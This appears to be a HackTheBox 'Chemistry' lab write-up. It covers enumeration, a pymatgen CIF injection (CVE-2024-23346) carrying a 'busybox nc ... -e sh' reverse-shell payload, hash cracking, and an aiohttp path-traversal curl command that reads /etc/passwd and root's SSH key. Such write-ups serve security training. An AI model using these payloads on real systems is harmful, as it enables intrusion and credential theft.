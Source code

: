 ### Enumeration
```
IP=10.10.11.38
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- ./nmap
	- 10.10.11.38
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- 5000
	- upnp
### Foothold
- 5000
	- Default landing page
		![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry01.png)
	- Directory Brute force
		- dirsearch -u http://$IP:5000
			- /login
			- /register
			- /upload
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /login
				- admin:admin
					![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry02.png)
			- /register
				- admin:admin
					![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry03.png)
				- admin123:admin123
					- Creates account
						![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry04.png)
	- Versions
		- CIF file
			- CVE-2024-23346
				- https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
				- Changed this part of code `("os").system ("busybox nc 10.10.14.154 443 -e sh");0,0,0'
				- Landed a rev shell
				![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry05.png)
### PE
#### Linux
- app
	- id
		- uid=1001(app) gid=1001(app) groups=1001(app)
	- Root drive directory
		- nothing abnormal
	- sudo -l
		- requires password
		- Tried
			- app, root, MyS3cretCh3mistry4PP
	- uname -a
		- `Linux chemistry 5.4.0-196-generic #216-Ubuntu SMP Thu Aug 29 13:26:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping cap_net_raw+ep
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- ./GTFOBins_SUID.py
			- Nothing from output
	- Users with console
		- app
			- app.py
				![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry06.png)
				- Possible sql login
					- app:MyS3cretCh3mistry4PP
			- /instance/database.db
				![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry07.png)
				![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry08.png)
				- Crackstation
					- rosa:63ed86ee9f624c7b14f1d4f43dc251a5
						- unicorniosrosados
					- admin:2861debaf8d99436a10ed6f75a252abf
						- not found
		- rosa
			- su rosas
				- MyS3cretCh3mistry4PP, rosa
					- failed
				- unicorniosrosados
					- Succeed
	- netstat -ano
		- Active ports
			- 8080, 53
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
			- monitoring_site
				- Owned by root
		- /etc/crontab
			- nothing
	- linpeas
		- Possible Exploits
		- Interesting Files
		- Nothing
	- pspy64
- rosa
	- id
		- uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
	- history
		- nothing
	- sudo -l
		- unicorniosrosados
			- Can't run sudo
	- suid
		- nothing new
	- linpeas
		- nothing new
	- Port 8080
		- Setup port forward
			- ssh -f -N -D 1080 rosa@10.10.11.38
		- proxychains dirsearch -u http://127.0.0.1:8080
			- Nothing
		- proxychains nikto -h http://127.0.0.1:8080
			- Server: Python/3.9 aiohttp/3.9.1
			- Google aiohttp 3.9.1 exploit
				- LFI - https://github.com/z3rObyte/CVE-2024-23334-PoC
			![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry09.png)
		- LFI
			- `proxychains curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../etc/passwd"`
			- Outputs etc/passwd file
		- `proxychains curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../root/.ssh/id_rsa"
			- outputs root id_rsa
			![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry10.png)
- root

	![alt text](https://github.com/trevorprice99/Penetration_Testing/blob/main/Write-Ups/HackTheBox/Chemistry/Images/Chemistry11.png)
